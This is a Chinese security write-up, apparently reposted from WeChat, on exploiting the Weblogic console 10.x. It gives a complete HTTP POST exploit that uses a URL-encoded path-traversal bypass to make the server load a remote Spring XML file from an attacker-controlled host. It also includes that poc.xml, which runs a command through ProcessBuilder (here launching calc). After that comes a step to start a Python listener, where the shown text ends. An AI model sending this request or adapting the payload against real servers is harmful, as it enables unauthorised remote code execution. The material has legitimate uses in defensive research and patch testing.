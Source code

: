 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/QrVRGm5rNw7wz6LtD4rZyQ)

_**声明**_

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测以及文章作者不为此承担任何责任。  
雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

_**No.1  
**_

_**Weblogic console 10.x 版本利用**_

1、构造如下 exp。

```
POST /console/images/%252E%252E%252Fconsole.portal HTTP/1.1
Host: xxxx:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

\_nfpb=true&\_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://xxx:1234/poc.xml")
```

poc.xml 内容：

```
<beans xmlns="\[http://www.springframework.org/schema/beans\](http://www.springframework.org/schema/beans)" xmlns:xsi="\[http://www.w3.org/2001/XMLSchema-instance\](http://www.w3.org/2001/XMLSchema-instance)" xsi:schemaLocation="\[http://www.springframework.org/schema/beans\](http://www.springframework.org/schema/beans) \[http://www.springframework.org/schema/beans/spring-beans.xsd\](http://www.springframework.org/schema/beans/spring-beans.xsd)">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><!\[CDATA\[calc\]\]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

2、开启 python 监听。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVohBEibicG2QxBLMzwVcEJCypBHRsnUMRMX3bJYlpviaUZ287G7VyAXIIDLEuLhUmGvPFTIQB0icjKeQ/640?wx_fmt=png)
